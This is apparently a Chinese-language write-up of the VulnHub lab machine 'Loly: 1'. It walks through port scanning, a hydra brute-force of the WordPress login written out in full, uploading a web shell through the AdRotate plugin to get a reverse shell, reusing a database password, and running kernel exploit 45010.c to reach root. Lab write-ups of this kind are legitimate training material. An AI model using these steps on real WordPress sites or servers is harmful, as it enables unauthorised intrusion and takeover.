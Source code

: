 # Loly: 1

2024-5-22 https://www.vulnhub.com/entry/loly-1,538/

difficulty: Easy

## IP

192.168.10.184

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
```

gobuster 扫描出 http://192.168.10.184/wordpress/

wpscan 扫描出一个用户:loly

尝试找到登陆密码，访问登陆页面，提示 Unknown host: loly.lc，看样子需要把 loly.lc 添加到/etc/hosts 中。

hydra 进行密码爆破：

```
hydra -t 20 -l loly -P ~/tools/dict/rockyou.txt 192.168.10.184 -f http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.10.184%2Fwordpress%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username loly is incorrect"
```

找到了 loly 的密码:fernando

theme 没上传接口，左侧菜单发现了一个插件 Adrotate，估计会有漏洞，进行搜索。

http://loly.lc/wordpress/wp-admin/admin.php?page=adrotate-media 中可以上传 zip，然后插件会自动解压。把 web shell 打包上传。

访问下面连接，就会触发反弹 shell，在 kali 上监听 8888 端口：

```
curl http://loly.lc/wordpress/wp-content/banners/8888.php
```

得到了反弹的 shell，先升级下 tty，开始进行系统枚举。

sudo，suid，crontab、cap 都没发现特殊的程序。

/home 目录中有 loly 目录，其中有一个 clean.py：

```
www-data@ubuntu:/home/loly$ cat cleanup.py
import os
import sys
try:
	os.system('rm -r /tmp')
except:
	sys.exit()
```

看到 rm 没有使用绝对路径，可能存在程序替换执行的漏洞。

在 www-data@ubuntu:~/html/wordpress$ cat wp-config.php 中发现数据库配置密码：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
define( 'DB_HOST', 'localhost' );
```

或许这个数据库密码，就是 loly 的用户密码，su 尝试切换到 loly，输入密码 lolyisabeautifulgirl ，切换成功。

cleanup.py 应该是被 root 用户定时调用，但是目前看不到定时信息，只有先修改 cleanup.py 中的内容，等待 root 用户触发，但是 tmp 目录中一直没有生成我们想要的结果，估计这里是坑，其他的信息没有搜集到，最后只能看看有没有内核漏洞。

uname -a Linux ubuntu 4.4.0-31

searchsploit 找到 Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation | linux/local/45010.c

下载到目标机器上编译执行：

```
loly@ubuntu:~$ gcc 45010.c -o exp
loly@ubuntu:~$ ./exp
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# cd /root
# cat root.txt
  ____               ____ ____  ____
 / ___| _   _ _ __  / ___/ ___||  _ \
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ <
 |____/ \__,_|_| |_|\____|____/|_| \_\

Congratulations. I'm BigCityBoy

```
